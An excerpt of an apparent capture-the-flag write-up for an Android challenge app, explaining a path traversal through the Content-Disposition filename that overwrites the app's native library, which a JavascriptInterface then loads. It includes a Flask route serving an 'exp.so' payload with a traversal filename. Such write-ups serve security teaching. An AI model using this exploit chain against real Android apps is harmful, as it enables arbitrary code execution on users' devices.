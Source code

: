 ```Java
private static final Pattern CONTENT_DISPOSITION_PATTERN =
        Pattern.compile("attachment;\\s*filename\\s*=\\s*(\"?)([^\"]*)\\1\\s*$",
                Pattern.CASE_INSENSITIVE);

static String parseContentDisposition(String contentDisposition) {
    try {
        Matcher m = CONTENT_DISPOSITION_PATTERN.matcher(contentDisposition);
        if (m.find()) {
            return m.group(2);
        }
    } catch (IllegalStateException ex) {
        // This function is defined as returning null when it can't parse the header
    }
    return null;
}
```

So in this case, we can manipulate the value of `Content-Disposition` to contain a lot of `../`. Then, the final path should be like:

```Plain
/sdcard/Android/data/com.wmctf.wmbabydroid/cache/../../../../../../../../../../../../data/data/com.wmctf.wmbabydroid/files/lmao.so
```

We can achieve this goal through python-flask.

```Python
@app.route("/download", methods=['GET'])
def download():
    response = make_response(send_from_directory(os.getcwd(), 'exp.so', as_attachment=True))
    response.headers["Content-Disposition"] = "attachment; filename={}".format("../"*15+"data/data/com.wmctf.wmbabydroid/files/lmao.so")
    return response
```

#### Overwrite and trigger the native-lib

There is a **JavascriptInterface** called lmao. If file `/data/data/com.wmctf.wmbabydroid/files/lmao.so` exists, it will load that native executable file.

```Python
webView.addJavascriptInterface(this, "lmao");

@SuppressLint("JavascriptInterface")
@JavascriptInterface
public void lmao(){
    try {
        File so = new File(getFilesDir() + "/lmao.so");
        if(so.exists()){
            System.load(so.getPath());
        }
    } catch (Exception e){
        e.printStackTrace();
    }
}
```
